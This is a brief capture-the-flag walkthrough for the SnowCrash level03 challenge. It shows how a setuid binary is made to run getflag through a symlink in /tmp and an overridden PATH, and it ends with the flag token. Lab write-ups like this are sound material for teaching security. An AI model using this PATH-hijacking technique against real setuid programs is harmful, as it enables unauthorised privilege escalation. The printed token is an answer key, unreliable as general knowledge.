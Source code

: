How to find:

    level03@SnowCrash:~$ ls -la
    total 24
    dr-x------ 1 level03 level03  120 Mar  5  2016 .
    d--x--x--x 1 root    users    340 Aug 30  2015 ..
    -r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
    -r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
    -r-x------ 1 level03 level03  675 Apr  3  2012 .profile


binary file level03 

    level03@SnowCrash:~$ ./level03 
    Exploit me

Check getflag command

    level03@SnowCrash:~$ which getflag

    /bin/getflag


Symbolic link from /bin/getflag to /tmp/echo

    level03@SnowCrash:~$ rm /tmp/echo
    level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
    level03@SnowCrash:~$ export PATH=/tmp
    level03@SnowCrash:~$ ./level03 

    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus




